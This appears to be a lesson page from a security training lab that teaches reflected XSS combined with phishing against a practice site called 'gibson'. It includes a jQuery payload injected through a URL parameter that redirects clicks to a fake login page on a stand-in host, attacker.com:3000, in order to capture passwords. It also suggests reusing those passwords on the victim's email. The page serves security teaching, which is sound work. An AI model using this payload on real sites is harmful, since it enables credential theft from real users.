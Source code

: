 XSS 2 - Reflected XSS + Phishing!
---------------------------------

![image](img/sword.png)


We've successfully attacked the system with a Stored XSS attack. Now let's try another method - a **Reflected attack**!

Reflected attacks take advantage of unsanitized data that is **injected from the url** and passes it to the code.

### Read again!

If you want, you can browse through [this again](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29).

### Attack!
Our vector of attack is going to be like so:

1. Using a [phishing](https://www.owasp.org/index.php/Phishing) page - a fake login page that has every login attempt send the credentials to your `serve` application. 
	> if you got `serve` running properly. [this phishing page](http://www.attacker.com:3000/utils/phishing-page/Login.html) should work.

2. Did you notice the *welcome* message poping up once you login? the message is passed via url parameter!

	Use that to inject your script to the **gibson** page through the URL! Have the fake login page require the user to log in, after clicking on the anywhere in the page
	> Hint: this is how it is done with jQuery ```$("body").click(function(){window.location="http://www.attacker.com:3000/utils/phishing-page/Login.html"})```

3. Now you can send you victim **your malicious link**! And notice how the domain is actually the **REAL GIBSON url! **.

   The user will see his messages in the real site, before promoted to enter his password, and your attack will be much harder to detect!

.. 

..

You would be surprised [how many people](http://docs.apwg.org/reports/apwg_trends_report_q1_2014.pdf) fall victim to these kind of attacks..

### Rolling the attack further

This method of attack doesn't work on all users, but when an unsuspecting user "bites", you will get their *password* and not just a *session*!

If for example, they use the same password as their *gmail* account, you've basically just gotten access to their mail too - and from there - their whole life!

- - - 
#### Have you already hacked the planet? Does all base belong to you?
[good! NEXT!](05-XSS2-defence.md)